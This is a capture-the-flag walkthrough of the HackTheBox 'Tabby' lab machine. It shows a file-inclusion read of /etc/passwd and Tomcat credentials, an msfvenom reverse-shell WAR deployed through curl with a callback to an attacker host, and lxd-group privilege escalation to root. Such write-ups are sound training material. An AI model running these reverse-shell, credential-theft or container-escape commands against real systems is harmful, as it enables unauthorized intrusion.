 ```yaml
---
title: "HackTheBox - Tabby"
author: Nasrallah
description: ""
date: 2023-02-17 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, lxd, tomcat, msfvenom, curl]
img_path: /assets/img/hackthebox/machines/tabby
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Tabby](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.10.194
Host is up (0.27s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found three open ports, port 22 is OpenSSH, 80 is Apache http web server and 8080 is Apache Tomcat.

## Web

Let's navigate to the web page on port 80.

![](1.png)

The website is a hosting service. On the page we can see the hostname `megahosting.htb`, let's add it to /etc/hosts file.

The link on the page don't work except for News.

![](2.png)

We see news.php use parameter file to pull `statement`, let's see if we can get `/etc/passwd`.

![](3.png)

Great! The parameter is vulnerable.

We can see a user called `ash`, i tried to pull the id_rsa but couldn't, also tried to get log files but no luck.

## Tomcat

Let's move to tomcat.

![](4.png)

We see that the version of tomcat used is 9.

Tomcat stores users credentials in a file called `tomcat-users.xml`, and we see in the web page that tomcat is installed on `/usr/share/tomcat9` so i tried to get `/usr/share/tomcat9/tomcat-users.xml` and `/usr/share/tomcat9/conf/tomcat-users.xml` but no luck with that, so i installed tomcat9 on my machine and used `find` to search for the file location and found it.

```terminal
┌─[sirius@ParrotOS]─[~]
└──╼ $ find /usr -type f -name 'tomcat-users.xml' 2>/dev/null                                                                                           130 ⨯
/usr/share/tomcat9/etc/tomcat-users.xml
```

The file is at `/usr/share/tomcat9/etc/tomcat-users.xml` so let's get it.

![](5.png)

We got the credentials.


# **Foothold**

Let's login to the manager webapp at `http://megahosting.htb:8080/manager/html`

![](6.png)

We can't access the `manager-gui`, but we can use `manager-script` which is a text-based service located at `/manager/text`.

To get a reverse shell, first we need to generate a payload using `msfvenom`, upload it with curl and get the shell.

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.10.10 lport=9001 -f war -o revshell.war
```


```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/shell --upload-file revshell.war
curl http://10.10.10.194:8080/shell
```

![](7.png)

# **Privilege Escalation**

## Ash

Checking the website's file, we come across a zip file.

![](8.png)

We need a password to unzip it.

Let's download the file to our machine and crack the pass.

![](9.png)

We got the password and managed to unzip the file, but there was no useful information on the files.

Maybe we can use the password to switch to user `ash`.

![](10.png)

## root

By running `id`, we see that `ash` is part of the group lxd

```terminal
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

We can upload an alpine image to the target from this repo `git clone https://github.com/saghul/lxd-alpine-builder.git`

First we run `lxd init` and accept the defaults.


>Note: If lxd is in snap, we add that to the Path with the command export PATH=$PATH:/snap/bin


Now we import the image with the command

```bash
lxc image import ./alpine-v3.17-x86_64-20230205_1307.tar.gz --alias myimage
```

Next we run the following command to get root.

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```


```terminal
ash@tabby:~$ lxc image import ./alpine-v3.17-x86_64-20230205_1307.tar.gz --alias myimage 
ash@tabby:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
| myimage | 60f5492cef0e | no     | alpine v3.17 (20230205_13:07) | x86_64       | CONTAINER | 3.52MB | Feb 6, 2023 at 5:08pm (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
ash@tabby:~$ lxc init myimage ignite -c security.privileged=true
Creating ignite
ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
ash@tabby:~$ lxc start ignite
ash@tabby:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root/
/mnt/root/root # ls
root.txt  snap
/mnt/root/root #
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).